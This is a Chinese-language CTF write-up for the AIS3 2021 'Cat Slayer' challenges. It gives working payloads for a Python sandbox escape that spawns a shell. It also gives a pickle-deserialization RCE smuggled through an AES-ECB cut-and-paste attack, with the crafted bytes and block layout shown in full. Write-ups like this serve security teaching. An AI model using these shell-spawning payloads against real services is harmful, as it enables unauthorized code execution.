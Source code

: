 # AIS3 2021 Pre-Exam [Misc]

## Cat Slayer <sup>Fake</sup> | Nekogoroshi

- Category: Welcome
- Difficulty: Welcome
- Solves: 315/327 (Pre-Exam), 102/190 (MyFirstCTF)
- Keywords: Welcome

玩梗題(X)，純粹回想到之前看寒蟬的時候有一個看起來很適合出水題的場景就出了，讚

反正就是密碼一共 13 個數字，只要一輸錯一個字就會鎖死，因此可以針對單一個字開始依序爆搜，最多只要猜 `(13*10)=130` 次就能解開了。

教學影片：https://youtu.be/2b3Oqo13-r0?t=1296

### Solution 0x01

手解。不到 10 分鐘吧

### Solution 0x02

寫腳本解。用 expect 或 pwntools 還是什麼隨便你，但寫+跑的時間應該不會比手爆還快 XD


## Cat Slayer | Online Edition

- Category: Misc
- Difficulty: Easy
- Solves: 12/327
- Keywords: Game, Python Sandbox

原本是希望大家認真打怪，但由於 code 寫太爛寫出了一個輸入負數值洗錢的 bug，但也沒差，反正蠻契合 CTF 主題的 XD

### Overview

一個附加了遊戲屬性的 Python sandbox 題。

玩家可以透過遊戲中賺取的錢解鎖 payload 可用字元，但解鎖的同時也會減少可用 payload 長度；然而，等級達到十等並轉生之後便能解除 payload 長度的限制，並且可以獲得 `"'.` 這三個重要字元。

其中使用者輸入的 payload (spell) 會被丟到一個 sandbox 執行，它先刪除了 `__import__`, `exec`, `eval` 這些內建函數，並會用 `_eval(spell, {})` 執行它。

另外此遊戲還有玩家對戰（殺人）機制，被殺的人帳號會**永久封鎖**。

### Solution

刷錢的部分我就不提了，直接講怎麼 get shell 吧。我的最低練度預期解是 lv.3 無轉生並解鎖 14 個字元（詛咒）即可 RCE，理論上是一個手動正常遊玩就可以刷到的等級（？

- 需解除的詛咒：`{'t', 'i', 'p', 'g', '(', 'r', ')', 'e', 'l', 'u', 'o', 'd', 'n', 'a'}`

- Payload
    ```python
    [g:=getattr,i:=input,g(g(__loader__,i())(i()),i())(i())]
    ```

- 搭配以下 stdin 輸入
    ```
    load_module
    os
    system
    sh
    ```

翻譯成白話文就是：`__loader__.load_module('os').system('sh')` 而已

由於沒有轉生，還沒有 `.` 可以用，於是就用 `getattr(aaa, 'bbb')` 來取代 `aaa.bbb`；並用 `input()` 來讀入使用者輸入產生字串，以避免使用到 `'"`（還能藉此減少使用的字元呢）

當然你要轉生+刷滿詛咒，再用超老梗的 `[].__class__.__base__.__subclasses__()[xx]...` 找到 `<class 'os._wrap_close'>` 直接串下去也是可以啦，這題定位本來就不是難題（？

--- 

由於這題不是難題，而且肯努力刷的話是可以用很簡單的方法解掉的，因此我的原先預期上是先解的人要負責努力殺新來的玩家，也就是說**越晚解題的難度會越高**，就算知道解法也不太能輕鬆拿到 flag，但一開始大家好像都沒做到，直到最後一天才開始有人認真殺人 QQ

## Cat Slayer | Cloud Edition

- Category: Misc
- Difficulty: Medium
- Solves: 1/327
- Keywords: Pickle, ECB Cut & Paste

我承認這題以 pre-exam 來說是偏難的題目 ><

### Solution

Crypto 的部分樸實無華，只是經典的 AES ECB cut & paste，大概是拿 ECB 去 Google 會發現的前幾個攻擊手法。那我們要 cut & paste 什麼東西呢？就是用來存檔讀檔的 pickle —— pickle 如果可以任意控制，那就能輕鬆達成 RCE 了，這邊給一個最常見的範例。

```python
class Exploit():
    def __reduce__(self):
        return (__import__('os').system, ('sh', ))

pkl = pickle.dumps(Exploit())
pickle.loads()
sh$ ...
```

首先要釐清的是哪些是使用者可控的部分呢？最明顯的肯定是名字了，可以自由的輸入任意的字串，那直覺上來說，是不是只要把字串設定成 `pickle.dumps(Exploit())` 的內容就好了呢？預設來說，ECB 加密（block size = 16）後的每個 block 會這樣分佈，其中最左邊那排代表第 n 個 block：
```python
0 b'\x80\x04\x95`\x00\x00\x00\x00\x00\x00\x00\x8c\x08__m'
1 b'ain__\x94\x8c\tCatSlaye'
2 b'r\x94\x93\x94)\x81\x94}\x94(\x8c\x08user'
# 以下 X, Y 皆代表 `pickle.dumps(CatSlayer()) 時 username 所在處
3 b'name\x94\x8c\x0cXXXXXXXXX'
4 b 'YYY\x94\x8c\x02hp\x94M\xe8\x03\x8c\x04at'
5 b'tk\x94K\n\x8c\x04defs\x94K\x00\x8c\x05'
6 b'money\x94K\x00ub.'
```
這樣看起來，把 YYY 開始的部分都換成 `pickle.dumps(Exploit())` ，然後移掉前面 0~3 個 block 就完成了吧？（也就是說，name 輸入為 `"XXXXXXXXX" + pickle.dumps(Exploit())`）

沒那麼簡單，先來看一下 pickle dump 出來的東西是啥：
```python
b'\x80\x04\x95\x1d\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x02sh\x94\x85\x94R\x94.'
```
對於普通字串而言，如果 `0x7f` <= char <= `0xbf`，則該 char 在 `pickle.dumps` 後前面會被多塞一個 `\xc2`，例如：`\x98` 會變 `\xc2\x98`。你可能會想說，那我避開這個範圍的字元不就行了？並沒有。如果你的 pickle 不需要用到這個範圍的字元卻想 import module 的話，全部都需要用到換行字元ㄛ，`input` 可不吃這種東西

其實我們只要把 `\xc2` 留在前一個 block 廢棄掉就行，padding 有很多方法可以塞，其中最萬用的是利用 `(0` 當 padding 解決（`(0` 代表 push mark 之後再 pop，等於什麼事情都沒做）

有了這個思路之後就能來構造輸入了：

首先，把前面 `pickle.dumps(Exploit())` 的結果簡化移除不必要的東西後，大概剩這樣
```python
b'\x80\x04U\x02osU\x06system\x93U\x02sh\x85R.'

Disassemble:
    0: \x80 PROTO      4
    2: U    SHORT_BINSTRING 'os'
    6: U    SHORT_BINSTRING 'system'
   14: \x93 STACK_GLOBAL
   15: U    SHORT_BINSTRING 'sh'
   19: \x85 TUPLE1
   20: R    REDUCE
   21: .    STOP
```
如此一來只剩下三個字元 > 0x7f 了，接下來構造一下要輸入的 name：

```python
# 把真正要用的 exploit 擠到下一個 block。注意：底下的 \x80 會變 \xc2\x80，要把 \xc2 留在上面
'AAAAAAAA' + 
'\x80\x04U\x02osU\x06system' + '(0' +  # [[BLOCK1]]，此處用 `(0` 當 padding
'AAAAAAAAAAAAAAA' + # 擠掉一整個 block，並把 \xc2 留在此 block
'\x93U\x0dsh #AAAAAAAAA' +  # [[BLOCK2]]
'AAAAAAAAAAAAAAA' + # 擠掉一整個 block，並把 \xc2 留在此 block
'\x85R.'    # [[BLOCK3]]
```
最後，ECB 加密的 block 會這樣分佈：
```python
0 b'\x80\x04\x95\xa0\x00\x00\x00\x00\x00\x00\x00\x8c\x08__m'
1 b'ain__\x94\x8c\tCatSlaye'
2 b'r\x94\x93\x94)\x81\x94}\x94(\x8c\x08user'
3 b'name\x94\x8cLAAAAAAAA\xc2' # name 從這邊的 AAAAAAAA 開始
4 b'\x80\x04U\x02osU\x06system(0'  # [[BLOCK1]]
5 b'AAAAAAAAAAAAAAA\xc2'
6 b'\x93U\rsh #AAAAAAAAA' # [[BLOCK2]]
7 b'AAAAAAAAAAAAAAA\xc2'
8 b'\x85R.\x94\x8c\x02hp\x94M\xe8\x03\x8c\x04at' # [[BLOCK3]]; name 到這邊的 `\x85R.` 結束
9 b'tk\x94K\n\x8c\x04defs\x94K\x00\x8c\x05'
0 b'money\x94K\x00ub.'
```
可以看得出來，我們要的 exploit 就在加密後的第 4, 6, 8 個 block。

此時只要先把玩家名稱設為上述的惡意 name，再去 save game 拿出加密後的資料，並取出第 4, 6, 8 個 block 拼接起來，接著去 load game 裏輸入這串內容就能 get shell 了。

詳情請見 [exploit.py](cat-slayer-cloud/exploit.py)
